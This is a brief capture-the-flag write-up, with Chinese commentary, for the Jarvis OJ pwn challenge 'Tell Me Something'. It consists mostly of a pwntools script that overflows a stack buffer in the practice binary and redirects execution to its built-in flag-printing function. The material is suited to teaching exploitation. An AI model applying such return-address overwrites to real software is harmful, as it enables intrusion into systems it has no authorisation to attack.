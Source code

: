 #### Tell Me Something

binary: [guestbook.d3d5869bd6fb04dd35b29c67426c0f05](http://ctf.leaflxh.com:3000/Jarvis/pwn/guestbook.d3d5869bd6fb04dd35b29c67426c0f05)

>Do you have something to tell me?
>
>**nc pwn.jarvisoj.com 9876**



题目比较简单，程序自带打印flag的函数good_game()，只开了NX

```python
#!/usr/bin/python2
from pwn import *
import time

DEBUG = True

if DEBUG == True:
    process = process("./guestbook.d3d5869bd6fb04dd35b29c67426c0f05")
else:
    process = remote("pwn.jarvisoj.com", "9876")
    time.sleep(5)


payload = "A" * 0x88 + "B" * 8
payload += p64(0x400620) #ptr for good_game()

process.recv()
process.send(payload)
gdb.attach(process)
process.interactive()
```






